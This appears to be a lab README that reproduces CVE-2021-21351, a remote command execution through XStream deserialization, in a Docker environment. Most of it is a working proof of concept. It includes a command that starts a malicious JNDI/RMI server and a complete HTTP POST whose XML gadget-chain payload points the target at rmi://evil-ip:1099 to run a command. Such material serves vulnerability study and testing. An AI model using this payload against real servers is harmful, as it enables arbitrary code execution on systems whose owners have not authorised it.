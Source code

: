 # XStream Deserialization Remote Command Execution (CVE-2021-21351)

[中文版本(Chinese version)](README.zh-cn.md)

XStream is a simple library to serialize objects to XML and back again.

XStream uses a blocklist mechanism when parsing XML text which is utilized to defend against deserialization vulnerabilities, but in 1.4.15 and earlier, blocklists are incomplete and attackers could use `javax.naming.ldap.Rdn$RdnEntry` and `javax.sql.rowset.BaseRowSet` to make an JNDI injection and execute arbitrary commands finally.

Reference links.

- https://x-stream.github.io/CVE-2021-21351.html
- https://paper.seebug.org/1543/
- https://www.veracode.com/blog/research/exploiting-jndi-injections-java
- https://github.com/welk1n/JNDI-Injection-Exploit/

## Vulnerable Environment

Start a Springboot + XStream 1.4.15 server.

```
docker-compose up -d
```

Once the environment is started, you can send the following request to `http://your-ip:8080` to test if the server has started successfully

![](1.png)

## POC

Since the target Java version is higher than 8u191, you need the help of `org.apache.naming.factory.BeanFactory` with EL expression injection to execute arbitrary commands, reference to [this article](https://www.veracode.com/blog/research/exploiting-jndi-injections-java).

Start a malicious JNDI server using [this tool](https://github.com/welk1n/JNDI-Injection-Exploit/).

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "touch /tmp/success" -A 192.168.1.142
```

![](2.png)

Using the RMI address based on the SpringBoot exploit gadget in the above screenshot as the value of `<dataSource>`.

```
POST / HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/xml
Content-Length: 3184

<sorted-set>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>ysomap</type>
    <value class='com.sun.org.apache.xpath.internal.objects.XRTreeFrag'>
      <m__DTMXRTreeFrag>
        <m__dtm class='com.sun.org.apache.xml.internal.dtm.ref.sax2dtm.SAX2DTM'>
          <m__size>-10086</m__size>
          <m__mgrDefault>
            <__overrideDefaultParser>false</__overrideDefaultParser>
            <m__incremental>false</m__incremental>
            <m__source__location>false</m__source__location>
            <m__dtms>
              <null/>
            </m__dtms>
            <m__defaultHandler/>
          </m__mgrDefault>
          <m__shouldStripWS>false</m__shouldStripWS>
          <m__indexing>false</m__indexing>
          <m__incrementalSAXSource class='com.sun.org.apache.xml.internal.dtm.ref.IncrementalSAXSource_Xerces'>
            <fPullParserConfig class='com.sun.rowset.JdbcRowSetImpl' serialization='custom'>
              <javax.sql.rowset.BaseRowSet>
                <default>
                  <concurrency>1008</concurrency>
                  <escapeProcessing>true</escapeProcessing>
                  <fetchDir>1000</fetchDir>
                  <fetchSize>0</fetchSize>
                  <isolation>2</isolation>
                  <maxFieldSize>0</maxFieldSize>
                  <maxRows>0</maxRows>
                  <queryTimeout>0</queryTimeout>
                  <readOnly>true</readOnly>
                  <rowSetType>1004</rowSetType>
                  <showDeleted>false</showDeleted>
                  <dataSource>rmi://evil-ip:1099/example</dataSource>
                  <listeners/>
                  <params/>
                </default>
              </javax.sql.rowset.BaseRowSet>
              <com.sun.rowset.JdbcRowSetImpl>
                <default/>
              </com.sun.rowset.JdbcRowSetImpl>
            </fPullParserConfig>
            <fConfigSetInput>
              <class>com.sun.rowset.JdbcRowSetImpl</class>
              <name>setAutoCommit</name>
              <parameter-types>
                <class>boolean</class>
              </parameter-types>
            </fConfigSetInput>
            <fConfigParse reference='../fConfigSetInput'/>
            <fParseInProgress>false</fParseInProgress>
          </m__incrementalSAXSource>
          <m__walker>
            <nextIsRaw>false</nextIsRaw>
          </m__walker>
          <m__endDocumentOccured>false</m__endDocumentOccured>
          <m__idAttributes/>
          <m__textPendingStart>-1</m__textPendingStart>
          <m__useSourceLocationProperty>false</m__useSourceLocationProperty>
          <m__pastFirstElement>false</m__pastFirstElement>
        </m__dtm>
        <m__dtmIdentity>1</m__dtmIdentity>
      </m__DTMXRTreeFrag>
      <m__dtmRoot>1</m__dtmRoot>
      <m__allowRelease>false</m__allowRelease>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>ysomap</type>
    <value class='com.sun.org.apache.xpath.internal.objects.XString'>
      <m__obj class='string'>test</m__obj>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
</sorted-set>
```

`evil-ip` is the address of the malicious RMI server. It can be seen that ``touch /tmp/success`` has been successfully executed:

![](3.png)

If something goes wrong with the POC and Java version, the POC have to be modified by changing ``<__overrideDefaultParser>false</__overrideDefaultParser>`` to ``<__useServicesMechanism>false</__useServicesMechanism>``.
